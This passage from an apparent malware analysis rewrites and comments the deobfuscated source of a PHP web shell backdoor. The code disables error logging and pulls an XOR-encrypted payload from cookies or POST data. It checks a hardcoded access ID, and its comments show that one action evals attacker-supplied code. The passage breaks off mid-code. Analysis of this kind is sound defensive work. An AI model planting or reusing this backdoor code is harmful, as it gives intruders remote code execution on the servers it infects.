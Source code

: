
Finally lets go ahead and do some rewriting and commenting, to get the
complete view of what is going on.

```php
<?php

// Prevents all errors and set unlimited execution time
@ini_set('error_log', NULL);
@ini_set('log_errors', 0);
@ini_set('max_execution_time', 0);
@set_time_limit(0);

// This is just a repeating XOR cipher, repeating cipherKey to length of text
function  repXOR($text, $cipherKey){
    $xorStr = "";
    for ($x = 0; $x < strlen($text);){
	for ($i = 0; $i < strlen($cipherKey) && $x < strlen($text); $i++, $x++){
            $xorStr .= chr(ord($text[$x]) ^ ord($cipherKey[$i]));
        }
    }
    return $xorStr;
}

// Initialize primary variables
$key = NULL;
$value = NULL;

// Iterate all $_COOKIE key => value, setting $value & $key, overwriting if multiple
foreach ($_COOKIE as $cKey => $cVal){
    $value = $cVal;
    $key = $cKey;
}

// If no $_COOKIE was present, try all $_POST, again overwriting if multiple
if (!$value){
    foreach ($_POST as $pKey => $pVal){
        $value = $pVal;
        $key = $pKey;
    }
}

/*
    Decode $payload
    1. Base64 decode 
    2. First XOR pass using provided ID
    3. Second XOR pass using provided key name from $_COOKIE or $_POST
    4. Unserialize it
*/
$payload = @base64_decode($value);
$payload = @repXOR($payload, 'd4a8745e-2599-49bc-b7e3-2b194ca49aef');
$payload = @repXOR($payload, $key);
$payload = @unserialize($payload);

/*
    // Payload requires ID
    $payload['ak'] => 'd4a8745e-2599-49bc-b7e3-2b194ca49aef',
    // Show info
    $payload['a'] => 'i',
    // Eval code
    $payload['a'] => 'e',
    $payload['d'] => 'echo \"Hi\";'
*/
if (isset($payload['ak']) && 'd4a8745e-2599-49bc-b7e3-2b194ca49aef' == $payload['ak']){
    // if $payload['a'] == 'i' respond with php version and "backdoor" version, serialized
```